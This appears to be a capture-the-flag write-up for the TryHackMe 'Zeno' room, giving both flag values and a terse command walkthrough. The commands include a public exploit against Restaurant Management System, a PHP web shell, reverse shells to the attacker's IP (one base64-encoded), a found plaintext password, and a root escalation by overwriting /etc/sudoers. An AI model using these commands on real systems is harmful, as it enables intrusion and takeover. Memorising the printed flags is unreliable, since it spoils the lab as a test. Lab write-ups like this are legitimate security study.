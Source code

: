 # <div align="center">[Zeno](https://tryhackme.com/r/room/zeno)</div>
<div align="center">Do you have the same patience as the great stoic philosopher Zeno? Try it out!</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b7ce2ee8-5239-4098-b407-3df142e4d9a9" height="200"></img>
</div>


## Task 1. Start up the VM
Perform a penetration test against a vulnerable machine. Your end-goal is to become the root user and retrieve the two flags:

```/home/{{user}}/user.txt```
```/root/root.txt```
The flags are always in the same format, where XYZ is a MD5 hash: THM{XYZ}

The machine can take some time to fully boot up, so please be patient! :)

The VM is booted up!
```
No Need
```

## Task 2. Get both flags
Good luck!
### Content of user.txt
```
THM{070cab2c9dc622e5d25c0709f6cb0510}
```
### Content of root.txt
```
THM{b187ce4b85232599ca72708ebde71791}
```
### Gained access as root user.
```
No answer needed
```

## Obtaining User.txt
```
nmap -sSCV -p- <IP>
gobuster dir -u http://<IP>:12340/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
searchsploit Restaurant Management System
python3 47520.py http://<IP>:12340/rms/
http://<IP>:12340/rms/images/reverse-shell.php/?cmd=id
sh -i >& /dev/tcp/ <my_own_IP>/4444 0>&1
echo L2Jpbi9zaCAtaSA+JiAvZGV2L3RjcC8xMC4xNC4xNC43OC84MCAwPiYxCg==|base64 -d|bash
nc -nvlp 4444
cat config.php
cat /etc/fstab
# username: zeno
# password: FrobjoodAdkoonceanJa
ssh edward@<IP>
ls
cat user.txt
```
## Root.txt
```
sudo -l
/bin/sh -c 'echo "edward ALL=(root) NOPASSWD: ALL" > /etc/sudoers'
sudo /usr/sbin/reboot
sudo su
cat /root/root.txt
```

